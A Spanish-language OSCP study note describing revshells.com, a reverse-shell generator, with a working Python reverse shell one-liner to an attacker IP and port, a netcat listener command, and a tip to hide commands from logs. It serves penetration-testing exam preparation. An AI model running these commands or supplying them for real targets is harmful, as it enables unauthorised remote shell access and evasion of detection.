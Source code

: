 [revshells.com](https://revshells.com/) es una herramienta online para generar comandos de reverse shell en múltiples lenguajes y escenarios. Aunque no forma parte de ninguna suite estándar, es extremadamente útil para generar payloads rápidos y adaptados según situación durante el OSCP.

---

## ¿Por qué usar revshells.com?

- Interfaz rápida para obtener reverse shells en Bash, Python, Perl, PHP, Ruby, PowerShell, socat, ncat, etc.
- Permite configurar IP, puerto y tipo de shell deseada
- Ideal cuando necesitas recordar la sintaxis exacta bajo presión

---

## Ejemplo de uso

1. Accede a [https://revshells.com](https://revshells.com)
2. Introduce tu IP (LHOST) y puerto (LPORT)
3. Elige el lenguaje o método deseado (ej: bash, python, php...)
4. Copia el comando generado y pégalo en la víctima

---

## Ejemplo generado (Python):
```bash
python -c 'import socket,subprocess,os;s=socket.socket();s.connect(("10.11.0.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")'
```

---

## Listener en el atacante

Siempre debes tener preparado un listener para recibir la conexión:
```bash
rlwrap nc -lvnp 4444
```

---

## Casos de Uso OSCP

- Subida de webshells
- Ejecución remota de comandos vía RCE
- Ajuste rápido a distintos entornos

---

## Buenas Prácticas

- Asegúrate de usar `rlwrap`, `socat` o estabilizar la shell tras obtenerla
- No dejes los comandos visibles en logs (usa `clear` si puedes)
- Guarda tus shells favoritas en una cheat sheet offline para evitar depender de la web durante el examen

---
